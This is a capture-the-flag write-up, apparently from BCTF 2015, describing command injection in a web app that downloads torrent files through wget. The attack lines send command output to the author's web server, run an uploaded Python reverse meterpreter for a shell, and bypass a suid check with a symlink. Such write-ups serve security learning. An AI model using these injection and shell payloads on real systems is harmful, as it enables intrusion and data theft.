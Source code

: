 ```yaml
---
layout: post
title: "BCTF 2015 Torrent"
date: 2015-03-27 00:26:26 -0400
author: [swappage]
comments: true
categories: [bctf]
---
```


### Solved by Swappage

Torrent lover was a 235 points worth challenge in BCTF 2015.

The obective was to pwn a web application and read the flag out of it.

Everything started with a form, which would allow you to specify an URL, from which the server
would download a .torrent file, process it, and print out basic torrent informations like files
content, tracker URL and the file name.

The page which was displaying the result was suffering from persistent XSS attack, but this was
simply a disguise to lure in the wrong direction, as the objective was to obtain code execution
on the server.

I quickly set up a web server and started to sniff some traffic, and this lured me, again,
in the wrong direction

In fact the HTTP request coming from the remote application looked like this:

    User-Agent: Wget/1.13.4 (linux-gnu)
    Accept: */*
    Host: 127.0.0.1:8443
    Connection: Keep-Alive

and considering the user agent, i wrongly focused my attention on the wget version, in an attempt
to exploit CVE-2014-4877, which affects all versions prior to 1.16: i thought that maybe by exploiting
this vulnerability i could write an arbitrary file in a known path and gain code execution from there.

I was wrong tho, and the story was completely different:
The application was vulnerable to a way simplier command injection attack, i discovered that
i could execute arbitrary code on the server by requesting an URL which looked like this

    http://my.webserver.host/$(command).torrent

The only restrictions i had for the command to be properly executed, were that

- the URL had to end with the *.torrent* string
- the whole URL couldn't contain spaces.

this was a pretty bad constraint, the enumeration was tedious and i really needed to figure out
where the torrents files downloaded by the web app were stored for processing.

The page displaying the result suggested me that the filese were indeed stored on disk before being
handled, because by requesting the same file twice, the second one would be displayed with a .1
appended to the name, which in general, happens when wgets finds a file on disk with the same name
in the same path.

to enumerate the paths i used simple command injections like

    http://my.webserver.host/$(pwd|base64)

and then read the output in my web server log which looked like this:

    218.2.197.253 - - [22/Mar/2015:14:52:57 +0100] "GET /1.php?i=L3Zhci93d3cvd29yawo=.torrent

and once i finally spotted that the absolute path where the downloaded files were stored was

    /var/www/work/zhongzi

i uploaded a .torrent file containing a python reverse meterpreter and popped a shell by sending

    http://my.webserver.host/$(python</var/www/work/zhongzi/swappage.torrent).torrent

After all, the only check that was performed was on the file extension, and nothing more.

Once i got the shell to read the flag we needed to run a suid binary that would output the flag
but it was performing a check on the argument that was passed which couldn't contain the word flag

    www-data@ubuntu-box:/var/www/flag$ ./use_me_to_read_flag flag
    ./use_me_to_read_flag flag
    You may not access 'flag'
    www-data@ubuntu-box:/var/www/flag$

the problem was quickly solved by symlinking the flag and then run the program against
the different file name, since the program wasn't resolving the original file name.

    www-data@ubuntu-box:/var/www/work/zhongzi$ ln -s /var/www/flag/flag merumerumeeee
    en -s /var/www/flag/flag merumerumeee
    www-data@ubuntu-box:/var/www/work/zhongzi$ /var/www/flag/use_me_to_read_flag merumerumeeee
    umerumeeeelag/use_me_to_read_flag mer
    BCTF{Do_not_play_dota2_or_you_will_be_stupid_like_me233}
    www-data@ubuntu-box:/var/www/work/zhongzi$ rm merumerumeeee
    rm merumerumeeee
    www-data@ubuntu-box:/var/www/work/zhongzi$ exit

the flag was

    BCTF{Do_not_play_dota2_or_you_will_be_stupid_like_me233}

